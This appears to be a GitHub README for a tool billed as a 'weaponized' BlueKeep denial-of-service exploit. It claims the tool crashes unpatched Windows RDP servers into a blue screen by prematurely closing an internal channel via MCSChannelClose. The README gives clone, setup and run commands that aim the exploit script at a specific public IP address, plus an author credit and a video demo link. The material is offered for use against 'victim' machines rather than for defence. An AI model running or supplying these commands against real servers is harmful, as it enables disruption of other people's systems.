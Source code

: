# BLUEKEEP_WEAPONIZED_DOS

<p><b>
  This is a weaponized Bluekeep module, that will cause an unpatched server , to crash or worse , Cause a BSOD. 
  his module works by sending crafted data required to trigger the call to MCSChannelClose.
  This causes prematurely closing an internal channel, which results in a BSOD on the victim machine.
  
</p></b>

<p><b>
Installation instructions : 
  
  <p><b>git clone https://github.com/1captainnemo1/BLUEKEEP_WEAPONIZED_DOS.git</p></b>
  <p><b>cd BLUEKEEP_WEAPONIZED_DOS/</p></b>
  <p><b>chmod +x setup.sh</p></b>
  <p><b>./setup.sh    # to clone the impackets module </p></b>
  <p><b>python exploit_bsod_bluekeep.py 82.208.39.117 64</p></b>
  <p><b>or</p></b>
  <p><b>python exploit_bsod_bluekeep.py 82.208.39.117 32 </p></b>
  <p><b>depending on the victim machine architecture </p></b>
  
  
</p></b>

<p><b>#Author :#Captain_Nemo </p></b>

<p>
  <a href= "https://youtu.be/oUKoKYMpXRE" rel="nofollow">
      <img src="https://www.youtube.com/upload_thumbnail?v=oUKoKYMpXRE&t=hqdefault&ts=1559903757084"  alt="to_video" style="max-width:100%;">
  </a>
</p>

